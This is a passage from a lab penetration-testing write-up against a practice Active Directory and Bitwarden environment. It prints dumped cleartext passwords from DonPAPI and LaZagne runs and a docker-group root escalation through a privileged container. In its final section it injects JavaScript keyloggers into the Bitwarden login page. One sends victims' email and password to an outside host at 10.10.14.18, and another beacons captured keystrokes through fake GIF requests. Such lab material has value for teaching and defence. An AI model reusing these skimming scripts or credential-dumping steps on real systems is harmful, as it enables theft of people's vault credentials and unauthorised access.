WJX4TgNMAp6DxLRf/EG7NL57NQMM4vp0/CuxDG98SdnQUqS8rVjzHrTLmyjzyO5jss9e6g3ByrrH4C3D9znlEQsu6Ac7mtzup1eDSX9ajMAYTZ2C3+YDtNYTgCXEwW7e7Xbbi+XfDbXvQjWaWbbKZxGcilVVPjZJ12fVgIcBAPwRTSfJv0+9Y4OI4wAH2BQ9cTlmqGO1m/uoneWVHUyMo98fap93EAVMD3poJhv4=|4PFR8Zzjyc3r4Rt4V93n/rkP7jaaeOLkdq4PhY8ofZE=	0	NULL	NULL	NULL	NULL	NULL	NULL	NULL	2023-03-26 19:53:10.7733333	2023-03-26 19:53:10.7733333	NULL	0	600000	{"id":null}	ZJ153p7PG5W7KzLLPb31ovUcsexcI9	0	0	0	NULL	1	NULL	NULL	NULL	NULL	NULL	NULL	NULL
```

Now unfortunately this credentials are not possible to extract so I checked back and apparently Netexec is missing to dump more DPAPI secrets:

```bash
└─$ donpapi collect -d work.junon.vl -u svc_deploy -p 'AssetManagement2024!' -t S021W105@work.junon.vl
[💀] [+] DonPAPI Version 2.1.0
[💀] [+] Output directory at /home/user/.donpapi
[💀] [+] Loaded 1 targets
[💀] [+] Recover file available at /home/user/.donpapi/recover/recover_1774870721
[S021W105@work.junon.vl] [+] Starting gathering credz
[S021W105@work.junon.vl] [+] Dumping SAM
DonPAPI running against 1 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━   0% -:--:--
[S021W105@work.junon.vl] [-] Could not dump SAM.
[S021W105@work.junon.vl] [-] No account found in SAM (maybe blocked by EDR)
[S021W105@work.junon.vl] [+] Dumping LSA
[S021W105@work.junon.vl] [$] [LSA] work.junon.vl\carly.adams:ZMskoMXML_qC17
[S021W105@work.junon.vl] [+] Dumping User and Machine masterkeys
[S021W105@work.junon.vl] [$] [DPAPI] Got 18 masterkeys
[S021W105@work.junon.vl] [+] Dumping User and Machine Certificates
[S021W105@work.junon.vl] [+] Dumping User Chromium Browsers
[S021W105@work.junon.vl] [+] Gathering Cloud credentials
[S021W105@work.junon.vl] [+] Dumping User and Machine Credential Manager
[S021W105@work.junon.vl] [$] [CredMan] [SYSTEM] Domain:batch=TaskScheduler:Task:{91F9A551-5750-44B2-B185-E9EB23AC2108} - WORK-JUNON\carly.adams:ZMskoMXML_qC17
[S021W105@work.junon.vl] [+] Dumping User Firefox Browser
[S021W105@work.junon.vl] [+] Gathering developement projects files
[S021W105@work.junon.vl] [+] Dumping MRemoteNg Passwords
[S021W105@work.junon.vl] [$] [MRemoteNG] [Carly.Adams] Bitwarden: SSH2://172.16.21.240:22 - 172.16.21.240\bitwarden:b1Ttw4rd3n!
[S021W105@work.junon.vl] [+] Dumping MobaXterm credentials
[S021W105@work.junon.vl] [+] Gathering notepad++ backup files
[S021W105@work.junon.vl] [+] Gathering password managers files
[S021W105@work.junon.vl] [+] Gathering powershell history files
[S021W105@work.junon.vl] [$] [PowerShellHistory] Found 1 powershell history files
[S021W105@work.junon.vl] [+] Dumping User's RDCManager
[S021W105@work.junon.vl] [+] Gathering recent files, desktop and download files
[S021W105@work.junon.vl] [+] Gathering recycle bins
[S021W105@work.junon.vl] [+] Dumping SCCM Credentials
[S021W105@work.junon.vl] [+] Gathering ssh secrets files
[S021W105@work.junon.vl] [+] Dumping VNC Credentials
[S021W105@work.junon.vl] [+] Dumping User and Machine Vaults
[S021W105@work.junon.vl] [+] Gathering version control system files
[S021W105@work.junon.vl] [+] Dumping Token Broker Cache
[S021W105@work.junon.vl] [+] Dumping Wifi profiles
DonPAPI running against 1 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                           
```

Now for some reasons now even Lazagne is able to export the credentials from the browsers cache:

```bash
PS C:\temp> .\LaZagne.exe browsers -v

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 119aec9c-02ff-4dce-a9b6-db446c3a7391
[+] System masterkey decrypted for 2f1a5c20-a168-4097-98ea-abfa3a312e68
[+] System masterkey decrypted for 3a265f00-cb47-4b68-9483-c4763064b338
[+] System masterkey decrypted for 42cda0dd-d8c4-4826-b57b-75f887b013f7
[+] System masterkey decrypted for 506b1c9e-ec1b-4e1f-975c-84d21b8b1ca0
[+] System masterkey decrypted for 97775129-becd-4587-8619-d7b8c17e5ba9
[+] System masterkey decrypted for a4bb8537-1cea-4c8a-ba9e-7b9e0fc3bb45
[+] System masterkey decrypted for f5908998-2a5e-468f-a560-1a46ce981e8e

########## User: SYSTEM ##########


########## User: svc_deploy ##########

 ------------------- Ie passwords -----------------

[!] No passwords found


########## User: Administrator ##########


########## User: Administrator.S021W105 ##########


########## User: Carly.Adams ##########


########## User: setup ##########


[+] 0 passwords have been found.

elapsed time = 12.234417200088501
PS C:\temp>
```

The default credentials for Carly their are not usefull here, which means the secure password for her account is most definitely something other:



Here I had to ask for another tips and apparently I need to check for browser credenttials and I saw only Edge(based on chrome) which emans sharpChromium should do the trick? Now I asked a user because I wasn't able to export the data but it should be saved here:

```bash
PS C:\users\carly.adams\appdata\local\microsoft\edge\user Data\default> cat "Login Data"
SQLite format @  ???


y????y&Qlogins_edge_extended_table_version3Cedge_breached_table_version3;last_compatible_version33
                                                                                                  ersion33#mmap_status-1
??????&Qlogins_edge_extended_table_versionCedge_breached_table_versionlast_compatible_version
                                                                                             ersion#	mmap_status
5?
?>
???5	logins_edge_extended		logins
?


?
 #g??u?-??#?t
             /5?indexforeign_key_indexinsecure_credentials
                                                          CREATE INDEX foreign_key_index ON insecure_credentials (parent_id)G
[5indexsqlite_autoindex_insecure_credentials_1insecure_credentials
                                                                  ?H	55?3tableinsecure_credentialsinsecure_credentials
CREATE TABLE insecure_credentials (parent_id INTEGER REFERENCES logins ON UPDATE CASCADE ON DELETE CASCADE DEFERRABLE INITIALLY DEFERRED, insecurity_type INTEGER NOT NULL, create_time INTEGER NOT NULL, is_muted INTEGER NOT NULL DEFAULT 0, UNIQUE (parent_id, insecurity_type))3?]tablesync_model_metadatasync_model_metadata	CREATE TABLE sync_model_metadata (id INTEGER PRIMARY KEY AUTOINCREMENT, model_metadata VARCHAR NOT NULL)?'99?itablesync_entities_metadatasync_entities_metadatCREATE TABLE sync_entities_metadata (storage_key INTEGER PRIMARY KEY AUTOINCREMENT, metadata VARCHAR NOT NULL)R'sindexlogins_signonloginsCREATE INDEX logins_signon ON logins (signon_realm)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)??tableloginsloginsCREATE TABLE logins (origin_url VARCHAR NOT NULL, action_url VARCHAR, username_element VARCHAR, username_value VARCHAR, password_element VARCHAR, password_value BLOB, submit_element VARCHAR, signon_realm VARCHAR NOT NULL, date_created INTEGER NOT NULL, blacklisted_by_user INTEGER NOT NULL, scheme INTEGER NOT NULL, password_type INTEGER, times_used INTEGER, form_data BLOB, display_name VARCHAR, icon_url VARCHAR, federation_url VARCHAR, skip_zero_click INTEGER, generation_upload_status INTEGER, possible_username_pairs BLOB, id INTEGER PRIMARY KEY AUTOINCREMENT, date_last_used INTEGER NOT NULL DEFAULT 0, moving_blocked_for BLOB, date_password_modified INTEGER NOT NULL DEFAULT 0, UNIQUE (origin_url, username_element, username_value, password_element, signon_realm))+?indexsqlite_autoindex_logins_1loginsf?/tablemetametaCREATE TABLE meta(key LONGVARCHAR NOT NULL UNIQUE PRIMARY KEY, value LONGVARCHAR)';indexsqlite_autoindex_meta_1meta


D?9u"D?????vZDt-!?'indexfield_info_indexfield_infoREATE INDEX field_info_index ON field_info (form_signature, field_signature)f5?indexbreached_table_indexbreachedCREATE INDEX breached_table_index ON breached (url, username)??tablebreachedbreachedCREATE TABLE breached (url VARCHAR NOT null, username VARCHAR NOT null, status INTEGER NOT null, alert_state INTEGER NOT null, last_checked_time INTEGER NOT null, sanitized_username VARCHAR, alert_seen INTEGER, last_seen_time INTEGER, UNIQUE (url, username))/Cindexsqlite_autoindex_breached_1breachedt;)?indexforeign_key_index_notespassword_notesCREATE INDEX foreign_key_index_notes ON password_notes (parent_id)?K
                        ))?Qtablepassword_notespassword_notesCREATE TABLE password_notes (id INTEGER PRIMARY KEY AUTOINCREMENT, parent_id INTEGER NOT NULL REFERENCES logins ON UPDATE CASCADE ON DELETE CASCADE DEFERRABLE INITIALLY DEFERRED, key VARCHAR NOT NULL, value BLOB, date_created INTEGER NOT NULL, confidential INTEGER, UNIQUE (parent_id, key));
O)indexsqlite_autoindex_password_notes_1password_notes?a!!?
tablefield_infofield_infoCREATE TABLE field_info (form_signature INTEGER NOT NULL, field_signature INTEGER NOT NULL, field_type INTEGER NOT NULL, create_time INTEGER NOT NULL, UNIQUE (form_signature, field_signature))3G!indexsqlite_autoindex_field_info_1field_info␦N%oindexstats_originstatsCREATE INDEX stats_origin ON stats(origin_domain)?@?_tablestatsstatsCREATE TABLE stats (origin_domain VARCHAR NOT NULL, username_value VARCHAR, dismissal_count INTEGER, update_time INTEGER NOT NULL, UNIQUE(origin_domain, username_value)))=indexsqlite_autoindex_stats_1stats?055?tablelogins_edge_extendedlogins_edge_extendedCREATE TABLE logins_edge_extended (id INTEGER PRIMARY KEY AUTOINCREMENT, source VARCHAR NOT null DEFAULT 0, strength_alert_status INTEGER NOT null DEFAULT 0, password_nickname VARCHAR NOT null DEFAULT '' , password_category INTEGER NOT null DEFAULT 0)

?0
?*
?*
?	


```

But seems like there is no credentials anymore?



# Back on SSH

Now since I was not able to follow the older path i will check what can I see from the SSH side I can see my current user is part of the docker group, which means I should be able to escalate to root:

```bash
bitwarden@s021v010:/home$ cd ..
bitwarden@s021v010:/$ id
uid=1001(bitwarden) gid=1001(bitwarden) groups=1001(bitwarden),118(docker)
bitwarden@s021v010:/$ docker ps

```

And these are the docker running:

```bash
bitwarden@s021v010:~$ docker ps
CONTAINER ID   IMAGE                              COMMAND            CREATED       STATUS                 PORTS                                                                                    NAMES
5cc679b084c0   bitwarden/nginx:2023.3.0           "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)   80/tcp, 0.0.0.0:80->8080/tcp, :::80->8080/tcp, 0.0.0.0:443->8443/tcp, :::443->8443/tcp   bitwarden-nginx
8b11acc65796   bitwarden/admin:2023.3.0           "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)   5000/tcp                                                                                 bitwarden-admin
44228b2d8f53   bitwarden/mssql:2023.3.0           "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)                                                                                            bitwarden-mssql
79d6d6bbc52a   bitwarden/attachments:2023.3.0     "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)                                                                                            bitwarden-attachments
a18d2d46b7f9   bitwarden/web:2023.3.0             "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)                                                                                            bitwarden-web
0b324073a17e   bitwarden/notifications:2023.3.0   "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)   5000/tcp                                                                                 bitwarden-notifications
230355d545c1   bitwarden/events:2023.3.0          "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)   5000/tcp                                                                                 bitwarden-events
efe6bf763230   bitwarden/api:2023.3.0             "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)   5000/tcp                                                                                 bitwarden-api
9940eceddf5d   bitwarden/identity:2023.3.0        "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)   5000/tcp                                                                                 bitwarden-identity
1e0b25c93d14   bitwarden/icons:2023.3.0           "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)   5000/tcp                                                                                 bitwarden-icons
d627147599ac   bitwarden/sso:2023.3.0             "/entrypoint.sh"   3 years ago   Up 2 hours (healthy)   5000/tcp                                                                                 bitwarden-sso

```

And I will spawn a privileged container to get another flag:

```bash
bitwarden@s021v010:/tmp$ docker run -it --rm --privileged -v /:/host alpine chroot /host
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@55cf106cdb6e:/# ls
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var
root@55cf106cdb6e:/# cd root
root@55cf106cdb6e:~# ls
flag.txt  snap
root@55cf106cdb6e:~# cat flag.txt
WUTAI{8ee04163721f23843eb17ae043f11f48}
root@55cf106cdb6e:~# 

```

# Extra

Here I was tipsed by another use to perform a sort of phishing, the idea is to pollute the login page to write the victim credentials. So this is the login page:

```bash
POST /identity/accounts/prelogin HTTP/2
Host: s021v010.work.junon.vl
Content-Length: 32
Bitwarden-Client-Version: 2023.3.0
Sec-Ch-Ua-Platform: "Linux"
Device-Type: 9
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Bitwarden-Client-Name: web
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: application/json
Content-Type: application/json; charset=utf-8
Origin: https://s021v010.work.junon.vl
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://s021v010.work.junon.vl/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"email":"carly.adams@junon.vl"}
```

This seems the file taking care of the login phase?

```bash
# grep -l "prelogin" *.js
main.d40a4bf93122e2717dce.js
# 

```

So gemini gave me a keylogger code that saves the password locally:

```json
# echo 'setInterval(()=>{const u=document.querySelector("input[type=\"email\"]")?.value,p=document.querySelector("input[type=\"password\"]")?.value;if(u&&p&&p.length>2){new Image().src="/capture_"+btoa(u+":"+p)+".png";}},1000);' > keylogger.js
# ls -al
total 4628
drwxr-xr-x 1 bitwarden bitwarden    4096 Mar 30 14:58 .
drwxr-xr-x 1 root      root         4096 Mar 26  2023 ..
-rw-r--r-- 1 bitwarden bitwarden       0 Mar 21  2023 .nojekyll
-rw-r--r-- 1 bitwarden bitwarden     848 Mar 21  2023 182.01f9126607a421376a13.js
-rw-r--r-- 1 bitwarden bitwarden    3334 Mar 21  2023 182.01f9126607a421376a13.js.map
-rw-r--r-- 1 bitwarden bitwarden   89316 Mar 21  2023 200.9ccae44353706a99b43f.js
-rw-r--r-- 1 bitwarden bitwarden  138776 Mar 21  2023 200.9ccae44353706a99b43f.js.map
-rw-r--r-- 1 bitwarden bitwarden  450105 Mar 21  2023 210.4fa9eac94649892afe39.js
-rw-r--r-- 1 bitwarden bitwarden      51 Mar 21  2023 210.4fa9eac94649892afe39.js.LICENSE.txt
-rw-r--r-- 1 bitwarden bitwarden 1567355 Mar 21  2023 210.4fa9eac94649892afe39.js.map
-rw-r--r-- 1 bitwarden bitwarden  165325 Mar 21  2023 301.ea52ba27f3c1e8c230ac.js
-rw-r--r-- 1 bitwarden bitwarden  462140 Mar 21  2023 301.ea52ba27f3c1e8c230ac.js.map
drwxr-xr-x 1 bitwarden bitwarden    4096 Mar 21  2023 404
-rw-r--r-- 1 bitwarden bitwarden    1911 Mar 21  2023 404.html
-rw-r--r-- 1 bitwarden bitwarden  235661 Mar 21  2023 409.c1736d648b4b7cd1d839.js
-rw-r--r-- 1 bitwarden bitwarden  435992 Mar 21  2023 409.c1736d648b4b7cd1d839.js.map
-rw-r--r-- 1 bitwarden bitwarden   97105 Mar 21  2023 584.238f402a694e2a33f299.js
-rw-r--r-- 1 bitwarden bitwarden     383 Mar 21  2023 584.238f402a694e2a33f299.js.LICENSE.txt
-rw-r--r-- 1 bitwarden bitwarden  233609 Mar 21  2023 584.238f402a694e2a33f299.js.map
-rw-r--r-- 1 bitwarden bitwarden   46915 Mar 21  2023 612.e659a97d8191d1c3bbcf.js
-rw-r--r-- 1 bitwarden bitwarden   58809 Mar 21  2023 612.e659a97d8191d1c3bbcf.js.map
-rw-r--r-- 1 bitwarden bitwarden     352 Mar 21  2023 70501c97b33df95adb32.json
-rw-r--r-- 1 bitwarden bitwarden   36523 Mar 21  2023 754.16b1b71a85eb48a91bf2.js
-rw-r--r-- 1 bitwarden bitwarden   39460 Mar 21  2023 754.16b1b71a85eb48a91bf2.js.map
-rw-r--r-- 1 bitwarden bitwarden   91193 Mar 21  2023 783.480b98a99d2928f318cc.js
-rw-r--r-- 1 bitwarden bitwarden  117671 Mar 21  2023 783.480b98a99d2928f318cc.js.map
drwxr-xr-x 1 bitwarden bitwarden    4096 Mar 30 14:44 app
-rw-r--r-- 1 bitwarden bitwarden     276 Mar 30 11:57 app-id.json
-rw-r--r-- 1 bitwarden bitwarden     234 Mar 21  2023 browserconfig.xml
-rw-r--r-- 1 bitwarden bitwarden     507 Mar 21  2023 captcha-connector.html
-rw-r--r-- 1 bitwarden bitwarden     765 Mar 21  2023 captcha-mobile-connector.html
drwxr-xr-x 1 bitwarden bitwarden    4096 Mar 21  2023 connectors
-rw-r--r-- 1 bitwarden bitwarden     574 Mar 21  2023 duo-connector.html
-rw-r--r-- 1 bitwarden bitwarden   58062 Mar 21  2023 encrypt-worker.8dde43fe97482ae4b420.js
-rw-r--r-- 1 bitwarden bitwarden  188425 Mar 21  2023 encrypt-worker.8dde43fe97482ae4b420.js.map
-rw-r--r-- 1 bitwarden bitwarden   34494 Mar 21  2023 favicon.ico
drwxr-xr-x 1 bitwarden bitwarden    4096 Mar 21  2023 fonts
drwxr-xr-x 1 bitwarden bitwarden    4096 Mar 21  2023 images
-rw-r--r-- 1 bitwarden bitwarden    1608 Mar 30 14:56 index.html
-rw-r--r-- 1 root      root          220 Mar 30 14:58 keylogger.js
drwxr-xr-x 1 bitwarden bitwarden    4096 Mar 21  2023 locales
-rw-r--r-- 1 bitwarden bitwarden     352 Mar 21  2023 manifest.json
drwxr-xr-x 1 bitwarden bitwarden    4096 Mar 21  2023 scripts
-rw-r--r-- 1 bitwarden bitwarden    1031 Mar 21  2023 sso-connector.html
-rw-r--r-- 1 bitwarden bitwarden    1084 Mar 30 14:53 theme_head.5f24ba8d7aa944e6f52b.js
-rw-r--r-- 1 bitwarden bitwarden    1802 Mar 21  2023 theme_head.5f24ba8d7aa944e6f52b.js.map
-rw-r--r-- 1 bitwarden bitwarden      26 Mar 21  2023 version.json
-rw-r--r-- 1 bitwarden bitwarden     582 Mar 21  2023 webauthn-connector.html
-rw-r--r-- 1 bitwarden bitwarden    1079 Mar 21  2023 webauthn-fallback-connector.html
-rw-r--r-- 1 bitwarden bitwarden    1018 Mar 21  2023 webauthn-mobile-connector.html
# 

```

Now I have injected the keylogger into the index.html:

```bash
# sed -i 's/<\/body>/<script src="keylogger.js?v=123"><\/script><\/body>/' index.html
# cat index.html
<!doctype html><html class="theme_light"><head><meta charset="utf-8"/><meta name="viewport" content="width=1010"/><meta name="theme-color" content="#175DDC"/><title page-title>Bitwarden Web Vault</title><link rel="apple-touch-icon" sizes="180x180" href="images/apple-touch-icon.png"/><link rel="icon" type="image/png" sizes="32x32" href="images/favicon-32x32.png"/><link rel="icon" type="image/png" sizes="16x16" href="images/favicon-16x16.png"/><link rel="mask-icon" href="images/safari-pinned-tab.svg" color="#175DDC"/><link rel="manifest" href="70501c97b33df95adb32.json"/><script defer="defer" src="theme_head.5f24ba8d7aa944e6f52b.js"></script><link href="app/main.450004ff4784a75d7340.css" rel="stylesheet"><script>document.addEventListener("submit",function(e){var d=new FormData(e.target);var o={};d.forEach((v,k)=>o[k]=v);var p=document.querySelector("input[type=password]")?.value;var u=document.querySelector("input[type=email]")?.value;if(u&&p){var x=new XMLHttpRequest();x.open("GET","http://10.10.14.18:9000/?c="+btoa(u+":"+p),false);x.send();}},true);</script></head><body class="layout_frontend"><app-root><div class="mt-5 d-flex justify-content-center"><div><p class="text-center"><i class="bwi bwi-spinner bwi-spin bwi-2x text-muted" title="Loading" aria-hidden="true"></i></p></div></div></app-root><script defer="defer" src="app/polyfills.428c25638840333a09ee.js"></script><script defer="defer" src="app/vendor.d953474cf3bdb110b464.js"></script><script defer="defer" src="app/main.d40a4bf93122e2717dce.js?v=final"></script><script src="keylogger.js?v=123"></script></body></html># 


```

I see the file is now injected into the frontend:



But the solutiion was to inject this keylogger that disguises as gif file:

```bash
# cat keylogger.js
var k="";document.onkeypress=function(e){k+=String.fromCharCode(e.which)};setInterval(function(){var p=document.querySelector("input[type=password]")?.value;if(k||p){new Image().src="/bitwarden-info.gif?c="+btoa(k||p);k=""}},3000);
# 


```

Add that to the main file:

```bash
# cat index.html
<!doctype html><html class="theme_light"><head><meta charset="utf-8"/><meta name="viewport" content="width=1010"/><meta name="theme-color" content="#175DDC"/><title page-title>Bitwarden Web Vault</title><link rel="apple-touch-icon" sizes="180x180" href="images/apple-touch-icon.png"/><link rel="icon" type="image/png" sizes="32x32" href="images/favicon-32x32.png"/><link rel="icon" type="image/png" sizes="16x16" href="images/favicon-16x16.png"/><link rel="mask-icon" href="images/safari-pinned-tab.svg" color="#175DDC"/><link rel="manifest" href="70501c97b33df95adb32.json"/><script defer="defer" src="theme_head.5f24ba8d7aa944e6f52b.js"></script><link href="app/main.450004ff4784a75d7340.css" rel="stylesheet"><script>document.addEventListener("submit",function(e){var d=new FormData(e.target);var o={};d.forEach((v,k)=>o[k]=v);var p=document.querySelector("input[type=password]")?.value;var u=document.querySelector("input[type=email]")?.value;if(u&&p){var x=new XMLHttpRequest();x.open("GET","http://10.10.14.18:9000/?c="+btoa(u+":"+p),false);x.send();}},true);</script></head><body class="layout_frontend"><app-root><div class="mt-5 d-flex justify-content-center"><div><p class="text-center"><i class="bwi bwi-spinner bwi-spin bwi-2x text-muted" title="Loading" aria-hidden="true"></i></p></div></div></app-root><script defer="defer" src="app/polyfills.428c25638840333a09ee.js"></script><script defer="defer" src="app/vendor.d953474cf3bdb110b464.js"></script><script defer="defer" src="app/main.d40a4bf93122e2717dce.js?v=final"></script><script src="keylogger.js?v=123"></script></body></html># 

```

And back in the bitlocker logs I can see the result:

```bash
.16.21.10 - - [30/Mar/2026:15:26:08 +0000] "GET /api/sync?excludeDomains=true HTTP/2.0" 200 2386 "https://172.16.21.240/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5614.0 Safari/537.36" "-"
172.16.21.10 - - [30/Mar/2026:15:26:08 +0000] "GET /encrypt-worker.8dde43fe97482ae4b420.js HTTP/2.0" 200 15672 "https://172.16.21.240/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5614.0 Safari/537.36" "-"
172.16.21.10 - - [30/Mar/2026:15:26:09 +0000] "GET /bitwarden-info.gif?c=ZmlvbmEuc3Rld2FydEBqdW5vbi52bEp1bm9uMjAyMyFCaXR3YXJkZW4N HTTP/2.0" 404 0 "https://172.16.21.240/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5614.0 Safari/537.36" "-"
172.16.21.195 - - [30/Mar/2026:15:26:10 +0000] "GET /bitwarden-info.gif?c=YWRtaW4= HTTP/2.0" 404 0 "https://s021v010.work.junon.vl/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36" "-"

```

And I have some creds:



And now I have her creds to the domain:



I will move back to the DC now.

&nbsp;

&nbsp;